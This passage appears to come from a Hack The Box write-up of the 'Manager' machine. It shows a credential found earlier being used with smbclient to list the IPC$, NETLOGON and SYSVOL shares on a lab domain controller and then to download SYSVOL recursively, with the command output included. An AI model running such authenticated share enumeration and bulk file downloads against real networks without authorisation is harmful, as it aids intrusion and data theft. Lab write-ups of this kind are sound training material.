 With the found credential, I can list the shares.
There are 5 shares found in total, and `IPC$`, `NETLOGON`, `SYSVOL` are readable.
Let's take a look at all these shares.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.11.236\\IPC$ -U 'manager.htb\operator'
Password for [MANAGER.HTB\operator]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*


┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.11.236\\NETLOGON -U 'manager.htb\operator'
Password for [MANAGER.HTB\operator]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul 27 06:19:07 2023
  ..                                  D        0  Thu Jul 27 06:19:07 2023

5446399 blocks of size 4096. 663915 blocks available


┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.11.236\\SYSVOL -U 'manager.htb\operator'
Password for [MANAGER.HTB\operator]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul 27 06:19:07 2023
  ..                                  D        0  Thu Jul 27 06:19:07 2023
  manager.htb                        Dr        0  Thu Jul 27 06:19:07 2023

5446399 blocks of size 4096. 663915 blocks available
```

Only `SYSVOL` share have some data. Let's download it.

```bash
┌──(kali㉿kali)-[~/htb/share_sysvol]
└─$ smbclient \\\\10.10.11.236\\SYSVOL -U 'manager.htb\operator'
Password for [MANAGER.HTB\operator]:
Try "help" to get a list of possible commands.
smb: \> prompt off
smb: \> recurse on
smb: \> mget *

NT_STATUS_ACCESS_DENIED listing \manager.htb\DfsrPrivate\*
getting file \manager.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 23 as manager.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \manager.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as manager.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \manager.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2790 as manager.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (5.2 KiloBytes/sec) (average 1.8 KiloBytes/sec)
getting file \manager.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1264 as manager.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (2.4 KiloBytes/sec) (average 1.9 KiloBytes/sec)
getting file \manager.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 4938 as manager.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (9.3 KiloBytes/sec) (average 3.4 KiloBytes/sec)
```
